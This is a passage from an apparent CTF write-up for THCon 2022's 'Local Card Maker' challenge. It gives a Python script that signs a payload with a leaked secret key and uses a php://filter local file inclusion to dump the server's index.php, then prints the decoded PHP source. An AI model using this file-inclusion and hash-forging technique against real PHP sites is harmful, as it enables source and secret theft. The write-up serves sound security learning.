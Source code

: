 ![](/images/posts/thcon-2k22-ctf-local-card-maker-writeup/6.png)
But this key isn’t enough to retrieve the flag from /flag.txt - we can’t load a .txt file since the `index.php` loader code appends `.php` to every Base64 payload we give it.

## Bonus - Leaking index.php File Contents

I wanted to make sure I understand how `index.php` works internally, so equipped with the secret key I leaked the content of index.php:

```python
import base64
import hashlib
import requests

php_file = b"index"
path = b"php://filter/convert.base64-encode/resource=%s" % (php_file,)
key_salt = b"Thcon_SuP3r_S3cr4t_K3y!"
buf = base64.encodebytes(path).replace(b"\n", b"")
buf_hash = hashlib.sha1(key_salt + buf).hexdigest()
buf = buf.decode()

print(requests.get("http://challenges1.thcon.party:2001/index.php?page=%s&pHash=%s" % (buf, buf_hash)).content)
```

The result is Base64-encoded `index.php`. Here it is after decoding, to better understand how this challenge works:

```php
<?php
session_start();
require("crypto.php");
$safe_handler = new IntegrityHandler($_SERVER['SECRET_KEY'], 'sha1');
define("LOCAL_ACCESS", 1);


function createHeaders($pArray, $handler){
	echo '<a href="/"><li>Home</li></a>';
	foreach($pArray as $p => $v){
		echo "<a href='/index.php?page=" . base64_encode($p) ."&pHash=" . $handler->secure_data(base64_encode($p)) . "' /><li>$v</li></a>";
	}
}

?>


<html>
<head>
	<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css">
	<link rel="stylesheet" type="text/css" href="css/style.css">
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title>Framework</title>
</head>
<body>
	<div class="headers">
		<div class="inner_headers">
			<div class="logo_c">
				<h1>Thcon22<span>Framework</span></h1>
			</div>
```